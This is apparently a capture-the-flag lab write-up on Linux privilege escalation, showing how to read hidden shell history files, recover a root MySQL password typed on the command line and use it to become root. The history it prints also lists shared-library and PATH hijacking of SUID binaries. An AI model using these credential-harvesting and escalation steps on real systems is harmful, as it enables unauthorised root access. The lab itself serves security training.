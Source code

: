 # [Task 16] Passwords & Keys - History Files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

```bash
cat ~/.*history | less
```

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

Switch to the root user, using the password:

```
su root
```

**Remember to exit out of the root shell before continuing!**

## #1 - What is the full mysql command the user executed?

```bash
user@debian:~$ cat ~/.*history
ls -al
cat .bash_history 
ls -al
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp
clear
ifconfig
netstat -antp
nano myvpn.ovpn 
ls
id
ls -l /usr/local/bin/suid-so 
/usr/local/bin/suid-so 
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
mkdir /home/user/.config
cat /home/user/tools/suid/libcalc.c
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so
ls -l /usr/local/bin/suid-env
/usr/local/bin/suid-env
strings /usr/local/bin/suid-env
cat /home/user/tools/suid/service.c
gcc -o service /home/user/tools/suid/service.c
PATH=.:$PATH /usr/local/bin/suid-env
ls -l /usr/local/bin/suid-env2 
/usr/local/bin/suid-env2 
id
systemctl stop apache2
/etc/init.d/apache2 stop
id
rm /tmp/rootbash
exit
identify


user@debian:~$ su - root
Password: 
root@debian:~# id
```